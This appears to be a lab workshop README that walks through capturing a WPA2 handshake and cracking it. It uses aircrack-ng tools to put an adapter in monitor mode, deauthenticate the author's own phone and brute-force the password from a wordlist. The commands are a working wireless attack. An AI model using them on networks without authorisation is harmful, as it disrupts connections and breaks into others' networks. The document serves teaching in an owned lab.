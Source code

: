 # Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

 * `sudo apt-get update  `

 * `sudo apt-get install linux\-headers\-$\(uname \-r\)  `

 * `git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)  `

 * `cd rtl8812au  `

 * `make `

 * `sudo insmod 8812au.ko `

 * `sudo cp 8812au.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless `

 * `sudo depmod `

 * `sudo apt-get install build-essential dkms `

 * `sudo make dkms_install `

 * `echo 8192eu | sudo tee -a /etc/modules `

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

 * `sudo airmon-ng check kill ` checks for conflicting processes and kills them. This however will result in loss of internet for the VM, can be solved by restarting.

 * `iwconfig   `shows the adapter names. In my case wlan0 is the wireless adapter.

 * `sudo airmon-ng start wlan 0 ` - Starts the wireless adapter in monitor mode.

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

 * `sudo airodump-ng -c 11 wlan0 ` - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

![](img/WifiHackingWorkshop4.png)



### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

 * `sudo airodump-ng -c 11 --bssid B0-95-75-5C-3B-94 -w psk wlan0 ` - this captures packets for the CyberSec accesspoint and saves it locally to a file named psk

 * `sudo aireplay-ng -0 10 -a B0:95:75:5C:3B:94 -c 0C:8D:CA:A6:93:8D wlan0 ` - This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthenication process for the wpa2 handshake is captured and saved locally

![](img/WifiHackingWorkshop6.png)

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

 * `aircrack-ng -w passwordlist.txt psk-02.cap `- This is what is used to crack the password.

![](img/WifiHackingWorkshop7.png)

